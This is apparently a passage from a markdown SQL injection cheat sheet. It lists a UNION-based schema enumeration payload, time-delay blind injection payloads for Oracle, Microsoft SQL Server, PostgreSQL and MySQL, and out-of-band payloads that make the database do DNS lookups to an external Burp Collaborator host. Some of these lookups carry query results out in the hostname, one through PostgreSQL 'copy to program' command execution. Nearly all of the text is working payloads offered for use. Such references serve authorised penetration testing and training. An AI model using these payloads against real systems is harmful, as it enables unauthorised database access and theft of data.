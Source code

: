 ``` 1'union+select+null,schema_name,null+FROM+INFORMATION_SCHEMA.SCHEMATA# ```    change the comment based on database to # or -- or /* **and** number of **null** values <br/>
Oracle	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual<br/>
Microsoft	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'<br/>
PostgreSQL	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END<br/>
MySQL	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')<br/>

<br/><br/>

# 3. Out of Band
**DNS lookup**<br/>
You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.<br/>
<br/>
Oracle	<br/>
(XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br/>
<br/>
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual<br/>
The following technique works on fully patched Oracle installations, but requires elevated privileges:<br/>
<br/>
SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')<br/>
Microsoft	exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'<br/>
PostgreSQL	copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'<br/>
MySQL	<br/>
The following techniques work on Windows only:<br/>
<br/>
LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')<br/>
SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'<br/>
DNS lookup with data exfiltration<br/>
You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use Burp Collaborator to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.<br/>
<br/>
Oracle	SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual<br/>
Microsoft	declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')<br/>
PostgreSQL	create OR replace function f() returns void as $$<br/>
declare c text;<br/>
declare p text;<br/>
begin<br/>
SELECT into p (SELECT YOUR-QUERY-HERE);<br/>
c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';<br/>
execute c;<br/>
END;<br/>
$$ language plpgsql security definer;<br/>
SELECT f();<br/>
MySQL	The following technique works on Windows only:<br/>
SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'<br/>

